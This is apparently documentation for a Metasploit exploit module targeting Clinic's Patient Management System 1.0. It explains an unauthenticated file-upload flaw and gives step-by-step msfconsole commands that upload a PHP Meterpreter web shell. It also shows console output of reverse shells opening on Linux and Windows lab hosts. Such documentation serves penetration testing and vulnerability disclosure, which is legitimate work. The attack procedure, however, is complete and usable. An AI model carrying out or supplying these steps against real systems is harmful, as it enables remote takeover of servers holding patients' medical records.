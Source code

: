 ## Vulnerable Application
The Clinic's Patient Management System (CPMS) 1.0 is vulnerable to Unauthenticated Remote Code Execution (RCE) due to a file upload vulnerability.
This exploit allows an attacker to upload arbitrary files, such as a PHP web shell, which can then be executed remotely.
The exploitation occurs because of a misconfiguration in the server, specifically a lack of file validation for uploads and the presence of
a directory listing feature in `/pms/user_images`.
This enables an attacker to upload a PHP file and access it via a publicly accessible URL, executing arbitrary PHP code.

## Verification Steps

### Vulnerable Application Installation Setup
1. Install Clinic's Patient Management System 1.0 on your web server.
   - Download the Web Application from [here](https://www.sourcecodester.com/download-code?nid=15453&title=Clinic%27s+Patient+Management+System+in+PHP%2FPDO+Free+Source+Code)
	- For **Windows**
		- [ ] Open your XAMPP Control Panel and start Apache and MySQL.
		- [ ] Extract the downloaded source code zip file.
		- [ ] Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
		- [ ] Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
		- [ ] Create a new database naming `pms_db`.
		- [ ] Import the provided SQL file. The file is known as pms_db.sql located inside the database folder.
		- [ ] Browse the Clinic Patient Management System in a browser. i.e. http://localhost/pms/

	- For **Linux**
		- [ ] Start Apache2 & MySQL with the command `sudo systemctl start apache2 && sudo systemctl start mysql`
		- [ ] Install PHPMyAdmin with the command `sudo apt install phpmyadmin -y`
		- [ ] Edit `/etc/apache2/apache2.conf` by appending this line: `Include /etc/phpmyadmin/apache.conf`
		- [ ] Extract the downloaded source code zip file into "/var/www/html" directory
		- [ ] Next steps are similar to the ones for Windows, so follow that

2. Start `msfconsole` and load the exploit module:
```bash
   msfconsole
   use exploit/multi/http/clinic_pms_fileupload_rce
```

3. Set the required options:
```bash
   set rport <port>
   set rhost <ip>
   set targeturi /pms
```

4. Check if the target is vulnerable:
```bash
   check
```

   If the target is vulnerable, you will see a message indicating that the target is susceptible to the exploit:
```
   [+] <IP> The target is vulnerable.
```

5. Set up the listener for the exploit:
```bash
   set lport <port>
   set lhost <ip>
```

6. Launch the exploit:
```bash
   exploit
```

7. If successful, you will receive a PHP Meterpreter shell.

## Options
- `TARGETURI`: (Required) The base path to the Clinic Patient Management System (default: `/pms`).
- `LISTING_DELAY`: (Optional) The time to wait before fetching the directory listing after uploading the shell (default: `2` seconds).


## Scenarios

### Clinic's Patient Management System on a Linux Target
```bash
msf exploit(multi/http/clinic_pms_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 127.0.0.1:80 - The target is vulnerable.

msf exploit(multi/http/clinic_pms_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Detected OS: linux
[*] Target is Linux/Unix. Using PHP Meterpreter payload with unlink_self.
[*] Uploading PHP Meterpreter payload as zuX7FDRe.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /pms/user_images/1734340436zuX7FDRe.php...
[*] Sending stage (40004 bytes) to 192.168.1.104
[*] Meterpreter session 1 opened (192.168.1.104:4444 -> 192.168.1.104:48290) at 2024-12-16 14:43:59 +0530

meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64
Meterpreter : php/linux
meterpreter >
```

### Clinic's Patient Management System on a Windows Target
```bash
msf exploit(multi/http/clinic_pms_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 192.168.1.103:80 - The target is vulnerable.

msf exploit(multi/http/clinic_pms_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Detected OS: winnt
[*] Target is Windows. Using standard PHP Meterpreter payload.
[*] Uploading PHP Meterpreter payload as lgTprVq5.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /pms/user_images/1734341267lgTprVq5.php...
[*] Sending stage (40004 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.104:4444 -> 192.168.1.103:60615) at 2024-12-16 14:57:43 +0530

meterpreter > sysinfo
Computer    : DESKTOP-VE9J36K
OS          : Windows NT DESKTOP-VE9J36K 10.0 build 19045 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter >
```
